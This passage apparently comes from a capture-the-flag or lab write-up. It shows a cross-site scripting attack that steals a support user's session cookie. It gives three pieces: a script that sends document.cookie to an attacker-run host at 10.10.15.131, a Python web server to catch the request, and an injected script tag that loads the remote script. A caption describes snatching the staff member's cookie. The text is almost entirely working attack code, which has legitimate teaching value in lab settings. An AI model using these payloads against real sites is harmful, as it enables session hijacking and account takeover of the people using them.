 {% tab title="script.js" %}
```javascript
new Image().src='http://10.10.15.131/index.php?c='+document.cookie
```
{% endtab %}

{% tab title="Python HTTP Server" %}
```bash
python3 -m http.server 80
```
{% endtab %}

{% tab title="Payload" %}
```javascript
"><script src=http://10.10.15.131/script.js></script>
```
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/xss_cookie.png" alt=""><figcaption><p>Figure 3: Snatching the support staff's cookie.</p></figcaption></figure>
